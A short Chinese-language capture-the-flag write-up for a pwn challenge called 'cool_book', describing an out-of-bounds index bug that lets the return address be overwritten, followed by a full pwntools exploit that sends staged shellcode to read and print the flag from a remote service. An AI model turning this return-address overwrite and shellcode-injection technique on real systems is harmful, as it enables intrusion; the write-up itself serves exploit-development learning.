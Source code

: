 cool\_book
==========

- 可以发现add的时候idx的限制不严格，导致越界，可以将返回地址覆盖为堆地址

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-459533bac0c63527c51486e94e08b37cb82e21c3.png)

- 同时init函数让堆可读可写可执行，所以可以直接执行shellcode，但是read只有0x10字节，不好直接布置shellcode，所以这个shellcode调用read，然后再写入很长长度的shellcode即可

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-fca38cfde2edb92c19090079be91032090aef7bb.png)

- exp

```Python
from pwnlib.util.packing import u64
from pwnlib.util.packing import u32
from pwnlib.util.packing import u16
from pwnlib.util.packing import u8
from pwnlib.util.packing import p64
from pwnlib.util.packing import p32
from pwnlib.util.packing import p16
from pwnlib.util.packing import p8
from pwn import *
from ctypes import *
import ast
import struct
context(os='linux', arch='amd64', log_level='debug')
# p = process("/home/zp9080/PWN/pwn")
# p=gdb.debug("/home/zp9080/PWN/pwn",'b *$rebase(0x1A8F7)')
p=remote('192.168.18.25',8888)
# p=process(['seccomp-tools','dump','/home/zp9080/PWN/pwn'])
elf = ELF("/home/zp9080/PWN/pwn")
libc=elf.libc 
def dbg():
    gdb.attach(p,'b *$rebase(0x161D)')
    pause()

# dbg()
#6605c255f81e4a68a946e87ea4e6b14f
p.sendlineafter("3.exit",str(1))
p.sendlineafter("input idx",str(0x31))
shellcode='''
xor edi,edi
mov rdx,0x1000
syscall
'''
p.sendafter("input content",asm(shellcode))

# dbg()
p.sendlineafter("3.exit",str(3))

shellcode=b'\x90'*0x400+asm(shellcraft.open('flag',0)+shellcraft.read(3,'rsp',0x100)+shellcraft.write(1,'rsp',0x100))
p.send(shellcode)

p.interactive()
```
